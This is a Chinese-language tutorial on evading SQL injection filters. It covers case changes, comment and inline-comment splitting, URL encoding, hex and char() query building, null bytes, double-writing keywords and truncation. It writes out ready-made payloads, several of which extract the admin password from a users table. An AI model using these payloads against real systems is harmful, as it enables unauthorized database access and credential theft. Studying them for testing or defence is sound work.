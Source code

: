 ## 大小写变化
sql语言是不区分大小写额度，所以可以通过变换攻击字符中的大小写来避开他们，从而实现绕过前端。由于前端可能对关键字段如amd select union这些sql字段进行了过滤，所以如果上传了这些单词可定是不能通过过滤的，但是php，java，python这些都是区分大小写的高级语言。而sql是不区分大小写的。因此，打乱了某个字段的大小写，也就是可以变相绕过后台的过滤，从而直接到达数据库。
举例：当order被过滤的时候，使用Order可以跳过过滤。
1. 选择合适的大小写。如order被过滤，则使用Order
<img src="../pictures/cbctpf50vmm.png" width="600" />
查询出来一共有三个字段。
<img src="../pictures/8fa0d224hsw.png" width="600" />
2. 选择合适的大小写Union，从而跳过union字段的过滤。从而获取到数据。


## 使用sql注释
1. 使用注释代替空格

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


2. 使用内部连接注释
举例子：以下一句sql

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


可以改写成

```sql
/**/un/**/ion/**/se/**/lect/**/password/**/fr/**/om/**/tblUsers/**/wh/**/ere/**/uusername/**/li/**/ke/**/'admin'
```


.因此可以看出，我们可以使用内联注释来对关键字符进行拆分，从而实现越过过滤器

## 使用url编码

用URL编码来逃避过滤。有以下一条sql语句

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


如果过滤器对“/*”进行了过滤，那么这条语句肯定是不能通过，随意可以将其转换为

```sql
%2f%2a*/union%2f%2a*/select%2f%2a*/password%2f%2a*/from%2f%2a*/tblUsers%2f%2a*/where%2f%2a*/uusername%2f%2a*/like%2f%2a*/'admin'
```


对关键字符进行url编码，从而实现过滤。如果一次不行们可以进行两次甚至多次url编码，但只要记住只是对关键字符进行url编码。其中为什么多次url编码可以实现，这个是由于web应用有时候多次解码

unicode编码方式  
由于unicode编码方式的复杂性，所以解码器是啊按照最近匹配原则进行匹配unicode匹配编码。

## 使用动态查询执行


简单来说，就是将sql语句存储到一个变量中，然后执行这条sql语句。其中的关键之处在于sql语句是字符串形式，这也就代表着有多种方法可以构造字符串。
1. 连接字符串
Oracel ： 'sel'||'et' $\rightarrow$ 'select'
Mysql : 'sel''ect' $\rightarrow$ 'select'

2. 使用ascii码
'select' $\rightarrow$ char(83)+char(69)+char(76)+char(69)+char(67)+char(84)

3. 使用sql字符串的ascii十六进制来代替字符串

```sql
select password from tblUsers
```


SQL SERVER 也可以按照以下形式进行构造

```
DECLARE @query varchar(100);
SELECT @query = 0x53454C454354202A2046524F4D2074626C7573657273
exec(@query)
```


其中 0x53454C454354202A2046524F4D2074626C7573657273就是SELECT * FROM tblusers的16进制。

## 使用空字符
由于过滤器一般都是存在于自生代码之外，比如WAF与IDS。而这些组件与原来的后台的编写语言是不同的，由于不同语言之间存在差异，可以使用这些微小差异进行绕过过滤。其中比较重要的一点就是可以使用空字符进行注入。原生过滤在遇到%00就会停止读取，也就能够绕过过滤了。比如

```sql
%00' union select password from tblusers where username='admin'--
```


从而实现空字符隔断注入


## 双写绕过注入
当前台不采用匹配过滤，而采用匹配删除的情况来使用的时候。比如and就会被删除and，那么则使用anand.这样子只有被过滤了才算成功注入。即从anand中删除and。变成了另外一个and。
举例，过滤了关键词or。
<img src="../pictures/4y1vk21iflq.png" width="600" />

## 利用截断
过滤器通常会对输入数据截断，并且设置最大长度。这是为了防止缓冲区溢出攻击。而一般过滤器都是先对输入进行设置，比如将单引号转化成双引号，之后再进行截断。这个就有了可乘之机。
比如 单引号被转换成双引号并且只允许15个字符：
那么就可以设置成
select * from table where username=aaaaaaaaaaaaaa'
这样子经过处理后，还是原来的样子
select * from table where username=aaaaaaaaaaaaaa'

## 内联注入
